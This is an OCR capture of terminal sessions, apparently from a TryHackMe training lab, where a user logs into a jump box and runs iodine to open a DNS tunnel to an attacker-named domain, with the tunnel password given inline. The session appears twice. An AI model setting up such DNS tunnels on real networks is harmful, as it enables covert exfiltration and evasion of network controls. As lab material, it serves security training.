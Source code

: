 ```
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Sep 13 00:24:59 2022 from 10.10.149.92
thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com
[sudo] password for thm: 
Opened dns1
Opened IPv4 UDP socket
Sending DNS queries for att.tunnel.com to 127.0.0.11
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #1
Setting IP of dns1 to 10.1.1.3
Setting MTU of dns1 to 1130
Server tunnel IP is 10.1.1.1
Testing raw UDP data to the server (skip with -r)
Server is at 172.20.0.200, trying raw login: ....failed
Using EDNS0 extension
Switching upstream to codec Base128
Server switched upstream to codec Base128
No alternative downstream codec available, using default (Raw)
Switching to lazy mode for low-latency
Server switched to lazy mode
Autoprobing max downstream fragment size... (skip with -m fragsize)
...768 not ok.. ...384 not ok.. ...192 not ok.. ...96 not ok.. ...48 not ok.. ...24 not ok.. ...12 not ok.. ...6 not ok.. ...3 not ok.. ...2 not ok.. 
iodine: found no accepted fragment size.
iodine: try setting -M to 200 or lower, or try other -T or -O options.
thm@jump-box:~$ 

root@ip-10-10-149-92:~# ssh thm@10.10.51.10
thm@10.10.51.10's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Sep 13 00:24:59 2022 from 10.10.149.92
thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com
[sudo] password for thm: 
Opened dns1
Opened IPv4 UDP socket
Sending DNS queries for att.tunnel.com to 127.0.0.11
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #1
Setting IP of dns1 to 10.1.1.3
Setting MTU of dns1 to 1130
Server tunnel IP is 10.1.1.1
Testing raw UDP data to the server (skip with -r)
Server is at 172.20.0.200, trying raw login: ....failed
Using EDNS0 extension
Switching upstream to codec Base128
Server switched upstream to codec Base128
```